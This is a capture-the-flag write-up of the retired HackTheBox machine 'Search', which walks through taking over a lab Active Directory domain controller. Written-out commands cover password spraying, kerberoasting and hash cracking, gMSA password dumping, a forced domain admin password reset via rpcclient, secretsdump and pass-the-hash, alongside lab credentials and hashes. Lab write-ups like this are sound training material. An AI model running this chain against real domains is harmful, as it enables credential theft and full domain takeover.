

HackTheBox - Search
Introduction
Search is a retired HackTheBox machine which contains several common windows exploits. I completed this box a while ago, but it now that it has retired, I can post my writeup. Some of the tools used to complete this box are: crackmapexec, gmsadumper, bloodhound, smbclient, and rpcclient.
Recon
Start with an nmap scan
sudo nmap -sC -sV -oX initial 10.10.11.129 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-24 20:46 EDT Nmap scan report for 10.10.11.129 Host is up (0.042s latency). Not shown: 987 filtered tcp ports (no-response) PORT STATE SERVICE VERSION 53/tcp open domain Simple DNS Plus 80/tcp open http Microsoft IIS httpd 10.0 | http-methods: |_ Potentially risky methods: TRACE |_http-server-header: Microsoft-IIS/10.0 |_http-title: Search — Just Testing IIS 88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2022-03-25 00:46:21Z) 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=research | Not valid before: 2020-08-11T08:13:35 |_Not valid after: 2030-08-09T08:13:35 |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time. 443/tcp open ssl/http Microsoft IIS httpd 10.0 |_http-server-header: Microsoft-IIS/10.0 |_http-title: Search — Just Testing IIS | ssl-cert: Subject: commonName=research | Not valid before: 2020-08-11T08:13:35 |_Not valid after: 2030-08-09T08:13:35 | tls-alpn: |_ http/1.1 |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time. | http-methods: |_ Potentially risky methods: TRACE 445/tcp open microsoft-ds? 464/tcp open kpasswd5? 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=research | Not valid before: 2020-08-11T08:13:35 |_Not valid after: 2030-08-09T08:13:35 |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time. 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name) |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time. | ssl-cert: Subject: commonName=research | Not valid before: 2020-08-11T08:13:35 |_Not valid after: 2030-08-09T08:13:35 3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name) |_ssl-date: 2022-03-25T00:47:41+00:00; +1s from scanner time. | ssl-cert: Subject: commonName=research | Not valid before: 2020-08-11T08:13:35 |_Not valid after: 2030-08-09T08:13:35 Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows Host script results: | smb2-security-mode: | 3.1.1: |_ Message signing enabled and required | smb2-time: | date: 2022-03-25T00:47:04 |_ start_date: N/A
The nmap scan returned a lot of information, however, there are a few key ports that reveal information about the machine.
LDAP on port 389 is a big clue that this is a domain controller.
First, I looked at the website. There are lots of images being shown in the slide deck. Let's investigate those.
This image has some handwritten notes. On the planner, there is a line that says "send password to Hope Sharp IsolationIsKey?". This looks promising.
While I don't know the username format for this org, I made a python script that generates possible combinations. https://github.com/haicenhacks/username-generator. I put the name "Hope Sharp" in the names.txt file and ran the script python generate_usernames.py -i names.txt -o usernames.txt
Next, I ran crackmapexec to test which of these were valid
crackmapexec smb search.htb -u usernames.txt -p 'IsolationIsKey?' SMB 10.10.11.129 445 RESEARCH [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False) SMB 10.10.11.129 445 RESEARCH [+] search.htb\hope.sharp:IsolationIsKey?
Logging in with smb reveales a few shares, but Hope Sharp does not have access to any
smbclient -L //search.htb -U hope.sharp
Enter WORKGROUP\hope.sharp's password:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
CertEnroll Disk Active Directory Certificate Services share
helpdesk Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
RedirectedFolders$ Disk
SYSVOL Disk Logon server share
SMB1 disabled -- no workgroup available
The next thing I tried was kerberoasting
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation --------------------------------- ------- -------- -------------------------- --------- ---------- RESEARCH/web_svc.search.htb:60001 web_svc 2020-04-09 08:59:11.329031 <never> [-] CCache file is not found. Skipping... $krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$b13f647c815289acbc8c0338a518f1e3$3cb01b7fed4 <snip> c4e0cade4fb0b97417d28e20a
This gets a kerberos ticket granting ticket, which can be cracked using
hashcat -m 13100 web_svc.hash /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt @3ONEmillionbaby
Since I had valid credentials from Hope Sharp, the other domain users can be dumped using bloodhound or ldapdomaindump, and extract the sam account name from the output
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
cat domain_users.grep | awk -F'\t' '{print $3}' > sam_names.txt
Using the sam names, I tried password spraying the password from the kerberoasted user web_svc
crackmapexec smb search.htb -u sam_names.txt -p @3ONEmillionbaby --continue-on-success
This shows the user Edgar.Jacobs has reused their password when creating the web_svc account
SMB 10.10.11.129 445 RESEARCH [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby
Next, I checked the SMB shares to see if Edgar.Jacobs can access anything else.
smbclient -L //search.htb -U edgar.jacobs
Enter WORKGROUP\edgar.jacobs's password:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
CertEnroll Disk Active Directory Certificate Services share
helpdesk Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
RedirectedFolders$ Disk
SYSVOL Disk Logon server share
smbmap -u smbmap -u edgar.jacobs -p @3ONEmillionbaby -d search -H 10.10.11.129
smbmap -u smbmap -u edgar.jacobs -p @3ONEmillionbaby -d search -H 10.10.11.129 -R RedirectedFolders$
There is an interesting file on Edgar's desktop called "Phishing_Attempt.xlsx", and the flag is under Sierra Frye's account, unfortunately the sheet is protected. I removed the sheet protection by
renaming the file as Phishing_Attempt.zip
unzip the file
modify the xl/sheet2.xml file to remove the protection value
re-zip the file
rename it Phishing_Attempt.xlsx
unzip the new file
delete the cell protection
zip it up and rename it
the file now shows the passwords
Using Sierra Frye's password, I can now get the user flag.
The next step is to figure out how to escalate privleges to get the admin flag.
bloodhound-python -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -ns 10.10.11.129 -d search.htb -c all``
Then start Bloodhound.
I marked Hope, Edgar, and Sierra as owned users, then ran the "shortest path to Domain Admins" query".
Since I have Sierra's credentials, the path is this: sierra.frye -> ITSEC@search.htb -> BIR-ADFS-GMSA@search.htb -> tristan.davies -> Domain Admin
Since Sierra has the read GMSA password permission, I can dump the GSMA password.
python3 gMSADumper.py -d search.htb -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' Users or groups who can read password for BIR-ADFS-GMSA$: > ITSec BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f rpcclient -U 'BIR-ADFS-GMSA$' --pw-nt-hash //10.10.11.129 Enter WORKGROUP\BIR-ADFS-GMSA$'s password: e1e9fd9e46d0d747e1595167eedcec0f < paste the gmsa password here rpcclient $> setuserinfo2 tristan.davies 23 'password' rpcclient $>
Now, I have set Tristan Davies (member of domain admins group) password to "password".
Run secretsdump to obtain all the password hashes
secretsdump.py search.htb/tristan.davies:password@10.10.11.129 -just-dc
Using pass the hash, I can access SMB as Administrator
smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5e3c0abbe0b4163c5612afe25c69ced6 administrator@search.htb
and get the root flag